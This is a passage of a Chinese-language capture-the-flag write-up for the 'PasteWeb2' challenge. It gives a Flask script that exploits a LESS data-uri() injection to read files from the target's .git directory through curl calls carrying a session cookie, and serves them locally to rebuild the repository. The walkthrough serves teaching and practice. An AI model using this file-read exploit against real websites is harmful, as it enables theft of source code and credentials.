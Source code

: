 ```sh
curl https://pasteweb.ctf.zoolab.org/view.php \
--cookie 'PHPSESSID=64sateuc0q1ilgun943qihuhtr'
```
![](assets/6-39.png)
頁面回傳的 base64 code 確實跟之前的一樣

最後，撰寫 flask server 腳本
```python
# PasteWeb2/server/server.py
from base64 import b64decode
from flask import Flask, send_file
import io
from os import system, popen

app = Flask(__name__)

@app.route('/')
def index():
	return 'Hello'

def leak_file_content(path):
    sessionID = '64sateuc0q1ilgun943qihuhtr' # need to change every time
    system('curl https://pasteweb.ctf.zoolab.org/editcss.php ' + \
    '--cookie \'PHPSESSID=' + sessionID + '\' --request POST -d ' + \
    '\'less=.a {content: data-uri("/var/www/html/.git/' + path + '");}\'')
    response = popen('curl https://pasteweb.ctf.zoolab.org/view.php ' + \
    '--cookie \'PHPSESSID=' + sessionID + '\'').read()
    index1 = response.find(';base64,')
    index2 = response.find('");\n}')
    base64_code = response[index1+8:index2]
    return b64decode(base64_code)

@app.route('/.git/<path:pathname>')
def git(pathname):
	return send_file(
        io.BytesIO(leak_file_content(pathname)),
        download_name=pathname.split('/')[-1],
        as_attachment=True
    )

if __name__ == '__main__':
	app.run(debug=True)
```
查看 view 頁面時用 popen 而不用 system 是因為要取得指令的輸出結果\
用 system 的話不會回傳指令的輸出，拿到 view 頁面的輸出後\
接著用 ```;base64,``` 和 ```");\n}``` 這兩個字串的 index 來定位出 base64 code 的位置\
然後用 base64 decode 出原本的內容
